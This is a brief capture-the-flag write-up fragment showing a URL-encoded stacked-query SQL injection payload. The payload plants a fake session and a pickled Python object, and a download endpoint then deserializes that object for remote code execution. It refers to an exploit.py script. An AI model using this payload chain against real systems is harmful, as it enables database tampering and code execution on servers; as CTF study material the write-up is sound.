 The SQLI payload + serialized pickled python object to RCE:
\;%0AINSERT%0AOR%0AIGNORE%0AINTO%0Aactivesessions%0A(sessionid,%0Ausername,%0Atimestamp)%0AVALUES%0A(\TESTCTF\,%0A\TESTCTF\,%0A\TESTCTF\);%0AINSERT%0AINTO%0Afiles%0A(filename,%0Adata,%0Asessionid)%0AVALUES%0A(\\{filename}\,%0A\\{pickled}\,%0A\TESTCTF\\);--

then go into /download/{filename}/{sessionid} path with the injected sessionid and the filename and the object will get desirialized

script available on exploit.py